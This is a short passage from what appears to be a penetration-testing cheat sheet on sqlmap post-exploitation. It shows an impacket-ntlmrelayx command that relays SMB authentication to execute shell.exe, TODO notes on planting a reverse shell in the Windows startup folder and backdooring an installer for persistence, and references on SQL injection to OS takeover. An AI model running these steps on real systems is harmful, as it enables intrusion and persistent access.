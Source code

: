 ```
$ sudo impacket-ntlmrelayx -t smb://<target_IP> -smb2support -e shell.exe
```

## 5.4 - Persistence

### 5.4.1 - Windows

TODO: See if it's possible to upload a reverse shell in the startup folder with `--file-write` and `--file-dest`.

TODO: See if it's possible to upload a backdoored with legit program such as, setup installer.

---
## References

- [Hacking Articles: File System Access on Webserver Using SQLmap](https://www.hackingarticles.in/file-system-access-on-webserver-using-sqlmap/)

- [Hacking Articles: Shell uploading in Web Server using Sqlmap](https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/)

- [Hacking Articles: Command Injection Exploitation through Sqlmap in DVWA (OS-cmd)](https://www.hackingarticles.in/command-injection-exploitation-through-sqlmap-in-dvwa/)

- [IOSec: SQLmap](https://iosec.in/sqlmap-4/)

- [Executing OS Commands Through MySQL](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#mysql)

- [Hacking Articles: Exploiting the Webserver using Sqlmap and Metasploit (OS-Pwn)](https://www.hackingarticles.in/exploiting-webserver-using-sqlmap-metasploit-os-pwn/)

- [Advanced SQL injection to operating system full control](https://owasp.org/www-pdf-archive/AppsecEU09-Damele-A-G-Advanced-SQL-injection-slides.pdf)

- [Osanda: MySQL Out-of-Band Hacking](https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/)